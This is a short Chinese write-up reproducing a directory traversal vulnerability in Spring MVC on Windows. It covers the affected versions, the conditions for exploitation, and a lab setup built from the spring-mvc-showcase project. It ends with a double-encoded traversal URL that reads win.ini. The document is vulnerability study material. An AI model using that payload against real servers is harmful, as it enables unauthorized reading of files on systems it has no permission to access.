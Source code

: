 # 简介

SpringMVC的一个目录穿越漏洞，或者说目录遍历漏洞。SpringMVC是Java开发界最常用的框架之一，当静态资源存放在Windows系统上时，攻击可以通过构造特殊URL导致目录遍历漏洞

# 影响版本

- Spring Framework 5.0 to 5.0.4.
- Spring Framework 4.3 to 4.3.14
- 已不支持的旧版本仍然受影响

## 漏洞利用条件

- Server运行于Windows系统上
- 要使用file协议打开资源文件目录

# 环境搭建&漏洞复现

```
git clone https://github.com/spring-projects/spring-mvc-showcase.git
```

修改spring的版本

```xml
<properties>
    <java-version>1.8</java-version>
    <org.springframework-version>5.0.0.RELEASE</org.springframework-version>
    <org.aspectj-version>1.8.1</org.aspectj-version>
</properties>
```

修改配置文件：org\springframework\samples\mvc\config\WebMvcConfig.java
这里的作用主要是配置资源映射，将url的/resources/映射到file协议的resources下

```java
@Override
public void addResourceHandlers(ResourceHandlerRegistry registry) {
    registry.addResourceHandler("/resources/**").addResourceLocations("file:./src/main/resources/","/resources/");
}
```

使用mvn命令启动：mvn jetty:run

访问url:

```
http://localhost:8080/spring-mvc-showcase/resources/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini
```

![image-20210909223455590](cve-2018-1271/image-20210909223455590.png)

